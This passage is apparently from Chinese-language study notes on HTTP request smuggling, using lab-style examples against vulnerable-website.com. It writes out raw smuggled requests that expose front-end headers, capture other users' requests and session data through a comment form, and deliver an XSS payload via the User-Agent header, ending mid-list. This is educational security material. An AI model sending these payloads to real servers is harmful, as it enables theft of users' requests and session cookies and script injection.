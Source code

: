         email=POST /login HTTP/1.1
        Host: vulnerable-website.com
        ...
        ```

        返回到网页上就变成：

        ```html
        <input id="email" value="POST /login HTTP/1.1
        Host: vulnerable-website.com
        X-Forwarded-For: 1.3.3.7
        X-Forwarded-Proto: https
        X-TLS-Bits: 128
        X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
        X-TLS-Version: TLSv1.2
        x-nr-external-service: external
        ...
        ```

* 捕捉其他用户的请求

    ```http
  GET / HTTP/1.1
  Host: vulnerable-website.com
  Transfer-Encoding: chunked
  Content-Length: 324
  
  0
  
  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 400
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO
  
  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
    ```
  
  其实就是用上一个走私去包含下一个请求。

* 执行XSS攻击。

    ```http
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 63
    Transfer-Encoding: chunked
    
    0
    
    GET / HTTP/1.1
    User-Agent: <script>alert(1)</script>
    Foo: X
    ```

* 将`on-site`重定向改成`open`重定向
